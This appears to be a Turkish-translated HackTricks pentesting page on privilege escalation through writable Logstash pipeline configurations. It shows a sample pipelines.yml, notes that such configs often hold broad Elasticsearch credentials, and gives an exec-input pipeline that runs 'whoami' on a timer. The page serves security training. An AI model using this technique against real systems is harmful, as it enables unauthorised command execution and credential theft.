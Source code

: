 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


## Logstash

Logstash, **logları toplamak, dönüştürmek ve iletmek** için **pipeline** olarak bilinen bir sistem kullanılır. Bu pipeline'lar **giriş**, **filtre** ve **çıkış** aşamalarından oluşur. Logstash, ele geçirilmiş bir makinede çalıştığında ilginç bir durum ortaya çıkar.

### Pipeline Yapılandırması

Pipeline'lar, pipeline yapılandırmalarının yerlerini listeleyen **/etc/logstash/pipelines.yml** dosyasında yapılandırılır:
```yaml
# Define your pipelines here. Multiple pipelines can be defined.
# For details on multiple pipelines, refer to the documentation:
# https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
path.config: "/etc/logstash/conf.d/*.conf"
- pipeline.id: example
path.config: "/usr/share/logstash/pipeline/1*.conf"
pipeline.workers: 6
```
Bu dosya, **pipeline** yapılandırmalarını içeren **.conf** dosyalarının nerede bulunduğunu ortaya koymaktadır. **Elasticsearch output module** kullanıldığında, **pipelines**'in genellikle **Elasticsearch kimlik bilgileri** içermesi yaygındır; bu kimlik bilgileri, Logstash'ın Elasticsearch'e veri yazma gereksinimi nedeniyle genellikle geniş yetkilere sahiptir. Yapılandırma yollarındaki joker karakterler, Logstash'ın belirlenen dizindeki tüm eşleşen **pipelines**'i çalıştırmasına olanak tanır.

### Yazılabilir Pipelines ile Yetki Yükseltme

Yetki yükseltme girişiminde bulunmak için, öncelikle Logstash hizmetinin çalıştığı kullanıcıyı belirleyin, genellikle **logstash** kullanıcısıdır. Aşağıdaki **bir** kriterden birine sahip olduğunuzdan emin olun:

- Bir pipeline **.conf** dosyasına **yazma erişiminiz** var **veya**
- **/etc/logstash/pipelines.yml** dosyası bir joker karakter kullanıyor ve hedef klasöre yazabiliyorsunuz

Ayrıca, **bir** bu koşullardan biri yerine getirilmelidir:

- Logstash hizmetini yeniden başlatma yeteneği **veya**
- **/etc/logstash/logstash.yml** dosyasında **config.reload.automatic: true** ayarı var

Yapılandırmada bir joker karakter verildiğinde, bu joker karakterle eşleşen bir dosya oluşturmak, komut yürütmeye olanak tanır. Örneğin:
```bash
input {
exec {
command => "whoami"
interval => 120
}
}

output {
file {
path => "/tmp/output.log"
codec => rubydebug
}
}
```
Burada, **interval** yürütme sıklığını saniye cinsinden belirler. Verilen örnekte, **whoami** komutu her 120 saniyede bir çalışır ve çıktısı **/tmp/output.log** dosyasına yönlendirilir.

**/etc/logstash/logstash.yml** dosyasında **config.reload.automatic: true** ayarı ile Logstash, yeni veya değiştirilmiş boru hattı yapılandırmalarını otomatik olarak algılayacak ve uygulayacaktır; yeniden başlatmaya gerek kalmadan. Eğer bir joker karakter yoksa, mevcut yapılandırmalarda değişiklikler yapılabilir, ancak kesintileri önlemek için dikkatli olunması önerilir.
